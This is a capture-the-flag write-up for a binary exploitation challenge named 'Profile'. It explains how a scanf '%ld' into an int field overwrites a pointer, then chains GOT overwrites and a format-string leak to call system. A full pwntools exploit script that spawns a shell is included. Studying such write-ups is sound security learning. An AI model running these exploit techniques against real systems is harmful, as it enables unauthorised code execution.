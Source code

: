 "Profile" was the first pwn challenge in the event.
One thing I liked is that we are given source code in the pwn chals:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

struct person_t {
  int id;
  int age;
  char *name;
};

void get_value(const char *msg, void *pval) {
  printf("%s", msg);
  if (scanf("%ld%*c", (long*)pval) != 1)
    exit(1);
}

void get_string(const char *msg, char **pbuf) {
  size_t n;
  printf("%s", msg);
  getline(pbuf, &n, stdin);
  (*pbuf)[strcspn(*pbuf, "\n")] = '\0';
}

int main() {
  struct person_t employee = { 0 };

  employee.id = rand() % 10000;
  get_value("Age: ", &employee.age);
  if (employee.age < 0) {
    puts("[-] Invalid age");
    exit(1);
  }
  get_string("Name: ", &employee.name);
  printf("----------------\n"
         "ID: %04d\n"
         "Name: %s\n"
         "Age: %d\n"
         "----------------\n",
         employee.id, employee.name, employee.age);

  free(employee.name);
  exit(0);
}

__attribute__((constructor))
void setup(void) {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
  srand(time(NULL));
}

```

This code does a really basic thing:
It will ask the user for age and name and create a new `person_t` struct with those values.
At first, I told myself that there was no vulnerability here, but after re-reading the code, I saw it:
The `person_t` struct is built like this:
```c
struct person_t {
  int id;
  int age;
  char *name;
};
```
So age is an int, which means it contains just 4 bytes.
Then, when we call `get_value("Age: ", &employee.age);`, `scanf("%ld%*c", (long*)pval) != 1` will be called.
That's a bug! The `%ld` format string means that a long will be inputted, which is 8 bytes!
With this bug, we can overwrite the `name` variable pointer!
This will give us an arbitrary write primitive, because we will use the `get_string` function to write to `&employee.name` which we control!

*Exploitation*

After running `checksec` on the binary, we can see that the binary is `Partial Relro`, and `non PIE`. this means, that the got is marked as rw, so we can use our primtive to write there.

Firstly, I overwrote `got.free`, to `main`, which will give us an infinite arbitrary writes, because each time the functions ends, it will start over again.
I didn't overwrote `got.exit` yet, because if `free` will be called with name, it will crash because of a check in free which checks for a size field in the chunk.
With our second arbitrary write, I overwrote `got.exit` with main, and then with our third one, I overwrote `got.free` with `got.printf`, and we get a fsb since free is called with out input!

With the fsb, we can easilly get leaks, of libc.
And lastly we'll overwrite `free` again with `system`, and win.

```py
from pwn import *

e = ELF("./profile")
p = process("./profile")
#p = remote("54.78.163.105" , 31540)
libc = ELF("./libc.so.6")

address = e.got.free
p.sendlineafter("Age: ", str((address << 32) + 1))
p.sendafter(b': ', p32(e.sym['main'])[:-1]+b'\x0a')

address = e.got.exit
p.sendlineafter("Age: ", str((address << 32) + 1))
p.sendafter(b': ', p32(e.sym['main'])[:-1]+b'\x0a')

address = e.got.free
p.sendlineafter("Age: ", str((address << 32) + 1))
p.sendafter(b': ', p32(e.sym["printf"])[:-1]+b'\x0a')


p.sendlineafter("Age: ", "1")
p.sendafter(b': ', "%p|%p|%p"+'\x0a')

p.recvuntil("1\n----------------\n")

leaks = p.recvuntil(b"Age").replace(b"Age", b"").split(b"|")
leak = int(leaks[-1], 16) - 0x114a37

libc.address = leak

print(hex(libc.sym.system))

#p.interactive()
address = e.got.free
p.sendlineafter(": ", str((address << 32) + 1))
p.sendlineafter(b': ', p64(libc.sym.system)[:-2])

p.sendline("1")
p.sendline("/bin/sh")

p.interactive()
```
אי
